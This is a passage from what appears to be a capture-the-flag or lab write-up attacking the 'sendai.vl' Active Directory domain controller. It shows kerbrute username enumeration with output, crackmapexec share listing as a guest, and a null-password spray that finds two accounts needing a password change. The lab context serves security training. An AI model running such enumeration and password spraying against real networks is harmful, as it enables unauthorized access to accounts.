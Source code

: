 ```bash
SMB         10.10.96.234    445    DC               1131: SENDAI\support (SidTypeGroup)
```
Now that we have a 'users.txt' we can check with kerbrute :

```bash
kerbrute userenum --dc "10.10.96.234" -d sendai.vl users.txt

2024/07/16 20:03:26 >  [+] VALID USERNAME:       sqlsvc@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Administrator@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Guest@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       DC$@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       websvc@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Dorothy.Jones@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Naomi.Gardner@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Kerry.Robinson@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Anthony.Smith@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Jason.Brady@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Kathleen.Kelly@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Norman.Baxter@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Stephen.Simpson@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Marie.Gallagher@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Susan.Harper@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Lisa.Williams@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Malcolm.Smith@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Elliot.Yates@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Ross.Sullivan@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Thomas.Powell@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Megan.Edwards@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Lawrence.Grant@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Leslie.Johnson@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Clifford.Davey@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Declan.Jenkins@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       mgtsvc$@sendai.vl
```

As of now we have a list of users but no password and the ability to log in as guest, let's see what guest can read

## The first two users

```bash
cme smb 10.10.96.234 -u 'toto' -p '' --shares | grep -I 'READ'

SMB         10.10.96.234    445    DC               IPC$            READ            Remote IPC
SMB         10.10.96.234    445    DC               sendai          READ            company share
SMB         10.10.96.234    445    DC               Users           READ
```
We can therefore try to connect with smbclient but it will be unsuccessful, we will not find anything interesting

We can on the other hand try to spray null passwords with the list of users that we had :

```bash
cme smb 10.10.96.234 -u users.txt -p '' --continue-on-success

# And we obtain this :
[-] sendai.vl\Elliot.Yates: STATUS_PASSWORD_MUST_CHANGE
[-] sendai.vl\Thomas.Powell: STATUS_PASSWORD_MUST_CHANGE
```
